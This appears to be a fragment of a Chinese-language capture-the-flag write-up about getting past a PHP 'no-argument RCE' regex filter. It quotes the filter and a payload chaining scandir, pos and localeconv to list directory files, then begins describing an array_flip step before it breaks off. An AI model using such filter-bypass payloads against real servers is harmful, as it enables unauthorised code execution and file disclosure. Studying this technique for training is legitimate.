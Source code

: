 <img src="assets/img/2023/11/image-20231125165652971.png" alt="image-20231125165652971" style="zoom: 67%;" />

看到

```php
if (';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $var))
```

是无参rce，使用 var=print_r(scandir(pos(localeconv()))); 来打印当前目录的文件信息

![image-20231125172104037](assets/img/2023/11/image-20231125172104037.png)

利用 array_flip() 将当前包含当前目录文件信息的数组的键值对反转
